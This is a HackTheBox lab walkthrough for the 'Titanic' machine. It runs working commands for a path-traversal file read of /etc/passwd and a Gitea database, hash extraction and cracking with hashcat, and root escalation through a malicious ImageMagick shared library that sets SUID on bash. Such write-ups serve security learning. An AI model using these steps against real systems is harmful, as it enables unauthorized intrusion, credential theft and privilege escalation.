 # Titanic HackTheBox WalkThrough

![titanic](../../img/Titanic/Titanic.png)

We start the machine with an nmap scan of all TCP ports.

```
nmap -sS 10.129.137.171 -n -Pn -p- --min-rate 3000

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ports 22 (SSH) and 80 (HTTP) are open. Let's try to detect the versions of these services and verify if they are actually running.

```
nmap -sVC -p 22,80 10.129.137.171

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Indeed, the machine runs OpenSSH and Apache. Neither of the detected versions appear to be vulnerable at first glance. Since there is an HTTP service running on port 80, let’s use `whatweb` to detect the technologies in use.

```
whatweb 10.129.137.171

http://10.129.137.171 [301 Moved Permanently] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.137.171], RedirectLocation[http://titanic.htb/], Title[301 Moved Permanently]
ERROR Opening: http://titanic.htb/ - no address for titanic.htb
```

The server tries to redirect us to `http://titanic.htb`, so we need to add it to `/etc/hosts` for proper resolution.

```
echo "10.129.137.171  titanic.htb" >> /etc/hosts
```

Now, we run the script again:

```
whatweb titanic.htb

http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.129.137.171], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
```

We take note of the detected technologies, as they might be useful later.

Now that we have basic reconnaissance data, let's visit the website.

![web](../../img/Titanic/web.png)

While testing the website's buttons, we notice that only `Book Now` is functional.

![book](../../img/Titanic/book.png)

We fill out the form with random data.

![json](../../img/Titanic/json.png)

After submitting the form, a file with the structure `<random_string>.json` is downloaded. Let’s intercept this request using Burp Suite to analyze the backend behavior.

![burp](../../img/Titanic/burp.png)

We can see that the server returns a `Location` header, redirecting us to a URL with the parameter `ticket=<file>`.

Since the `ticket` parameter refers to a file, let's attempt a **path traversal attack**.

```
curl "titanic.htb/download?ticket=../../../etc/passwd"

root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
...passwd file...
```

The exploitation is successful.

Now, let’s check `/etc/hosts` to look for any subdomains.

```
curl "titanic.htb/download?ticket=../../../etc/hosts"

127.0.0.1 localhost titanic.htb dev.titanic.htb
...hosts file...
```

A new subdomain appears: `dev.titanic.htb`. Let’s add it to our `/etc/hosts` file and visit it in the browser.

```
echo "10.129.137.171 dev.titanic.htb" >> /etc/hosts
```

This service is `Gitea`, a platform for managing Git projects. Let’s check the available repositories.

![dev](../../img/Titanic/dev.png)

In the `docker-config` repository, inside `docker-compose.yml`, we notice a volume mapping `/home/developer/data` to `/data` in the container.

```
volumes:
    - /home/developer/gitea/data:/data
```

According to the [Gitea Docker documentation](https://docs.gitea.com/installation/install-with-docker), customization files are stored in `/data/gitea`, which means the database should be there.

```
Customization files described here should be placed in /data/gitea directory.
```

Following [this documentation](https://docs.gitea.com/1.21/help/faq#where-does-gitea-store-what-file), we identify the default SQLite3 database file name.

We use our path traversal vulnerability to download the database.

```
curl "titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db" --output gitea.db
```

Opening it with SQLite:

```
sqlite3 gitea.db
```

Listing the tables:

```
.tables

...tables...
user
...tables...
```

The `user` table catches our attention.

Reading its columns, we find passwords hashed with `PBKDF2`. To crack them, we use **hashcat**, but first, we convert the hashes using `gitea2hashcat.py` as explained [here](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes).

```
select email,salt,passwd from user;

root@titanic.htb|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer@titanic.htb|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
test@test.com|7fcf462c21bf4ca64d61976df790f169|8ee98d985f9fe735939f8c434866440513a1b2089510c15d3104c4bc2c72c00ebe43745886892128d6b51d1195f77bea651e
```

We are going to try to crack the `developer`'s password.

```
./gitea2hashcat.py '8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Using `rockyou.txt` for cracking:

```
hashcat -m 10900 hashes.txt rockyou.txt
```

Soon, we retrieve the password:

```
hashcat -m 10900 hashes.txt rockyou.txt --show

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

The password in Gitea is `25282528`. Let's try to connect through `ssh` with the same credentials.

```
ssh developer@titanic.htb
developer@titanic.htb's password: 25282528
```

We successfully access the `developer` user and read the user flag.

```
cd
cat user.txt
```

To escalate privileges, we find `/opt/scripts/identify_images.sh`.

```
cat /opt/scripts/identify_images.sh

cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This script runs `/usr/bin/magick identify` in each image of the directory `/opt/app/static/assets/images/`. The problem is the installed version is vulnerable to a exploit described [here](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

Following the exploit instructions, we compile a malicious shared library in the same directory where the images to be analyzed are stored. We will run `chmod +s /usr/bin/bash` to give **SUID** to **Bash** and connect as `root` with no password.

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /usr/bin/bash");
    exit(0);
}
EOF
```

Assuming that the script runs periodically as `root`, we wait a few seconds for it to execute, allowing us to run **Bash** with **SUID** privileges.

```
bash -p
whoami

root
```

We are now `root` and can retrieve the final flag.

```
cd
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.